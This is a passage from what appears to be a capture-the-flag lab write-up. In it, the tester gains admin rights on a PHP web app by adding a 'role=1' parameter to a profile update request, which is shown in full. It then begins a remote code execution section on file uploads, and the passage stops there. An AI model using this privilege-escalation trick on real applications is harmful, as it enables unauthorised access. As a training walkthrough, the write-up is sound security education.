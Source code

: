 ![Parameter polution](/assets/img/timing_40_profile_update.png)

After including `&rule=1` in the request our session gets upgraded to an admin user.

```text
POST /profile_update.php HTTP/1.1
Host: 10.10.11.135
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.135/profile.php
Content-type: application/x-www-form-urlencoded
Content-Length: 59
Origin: http://10.10.11.135
Connection: close
Cookie: PHPSESSID=b4kjobo81eummgl8sm0mig5ltu

firstName=test&lastName=test&email=test&company=test&role=1
```

Once we are admin, we can upload a profile picture.


## Remote Code Execution

The file upload function allows us to upload `.jpg` or `.pdf` files only. I tried uploading an image, but I could not find the resulting image in the `/images/` directory.
